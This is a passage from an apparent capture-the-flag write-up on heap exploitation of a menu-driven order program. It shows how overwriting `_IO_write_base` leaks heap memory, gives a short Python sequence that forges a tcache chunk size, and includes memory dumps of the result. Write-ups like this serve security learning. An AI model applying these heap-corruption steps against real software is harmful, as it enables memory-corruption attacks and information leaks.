 However, if the lower 1 byte of `_IO_write_base` is rewritten to `NULL`, only the following heap area can be output even in the server environment.
```
0x603200:	0x0000000000000000	0x0000000000000000
0x603210:	0x0000000000000000	0x0000000000000000
0x603220:	0x0000000000000000	0x0000000000000000
0x603230:	0x0000000000000000	0x0000000000000000
0x603240:	0x0000000000000000	0x0000000000000000
0x603250:	0x0000000000000000	0x0000000000000411  <- The server environment is 0x111 instead of 0x411.
0x603260:	0x7461657243202e0a	0x2077656e20612065
0x603270:	0x2e320a726564726f	0x6e61207469644520
0x603280:	0x330a726564726f20	0x6574656c6544202e
```

An example of outputting with `context.log_level ='debug'` of `Pwntools`
```
    00000000  73 6f 20 79  6f 75 20 77  61 6e 74 65  64 20 87 3a  │so y│ou w│ante│d ·:│
    00000010  ad fb 01 01  01 01 01 01  01 01 01 01  01 01 01 01  │····│····│····│····│
    00000020  01 01 01 01  01 01 01 01  01 01 01 01  01 0a 00 00  │····│····│····│····│
    00000030  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000080  00 00 00 00  00 00 11 10  00 00 00 00  00 00 31 2e  │····│····│····│··1.│
    00000090  20 43 72 65  61 74 65 20  61 20 6e 65  77 20 6f 72  │ Cre│ate │a ne│w or│
    000000a0  64 65 72 0a  32 2e 20 45  64 69 74 20  61 6e 20 6f  │der·│2. E│dit │an o│
    000000b0  72 64 65 72  0a 33 2e 20  44 65 6c 65  74 65 20 61  │rder│·3. │Dele│te a│
    000000c0  6e 20 6f 72  64 65 72 0a  34 2e 20 50  61 79 20 79  │n or│der·│4. P│ay y│
    000000d0  6f 75 72 20  62 69 6c 6c  20 61 6e 64  20 6c 65     │our │bill│ and│ le│
```

Since the above limited area contains `tcachebin` of `0x3c0` size, we can leak the heap address by creating a chunk of `0x3c0` size in another area and freeing it.

```python
for i in range(6):
  Create()
Delete(4)
Delete(5)
Edit(5, "\x00")
Create()
Create()
Edit(2, "A"*0x18+p64(0x3c1))
Delete(7)
```

State of heap memory after executing `Delete (7)`
```
0x604670:	0x0000000000000000	0x0000000000000031
0x604680:	0x0000000000000000	0x0000000000000000
0x604690:	0x0000000000000000	0x0000000000000000
0x6046a0:	0x0000000000000000	0x0000000000000031
0x6046b0:	0x0000000000000000	0x0000000000000000
0x6046c0:	0x0000000000000000	0x0000000000000000
0x6046d0:	0x0000000000000000	0x0000000000000031
0x6046e0:	0x4141414141414141	0x4141414141414141
0x6046f0:	0x4141414141414141	0x00000000000003c1
0x604700:	0x0000000000000000	0x0000000000603010
0x604710:	0x0000000000000000	0x0000000000000000
0x604720:	0x0000000000000000	0x0000000000000000
0x604730:	0x0000000000000000	0x0000000000000031
0x604740:	0x0000000000000000	0x0000000000603010
0x604750:	0x0000000000000000	0x0000000000000000
0x604760:	0x0000000000000000	0x0000000000000031
0x604770:	0x0000000000604700	0x0000000000000000
0x604780:	0x0000000000000000	0x0000000000000000
0x604790:	0x0000000000000000	0x000000000001f871
```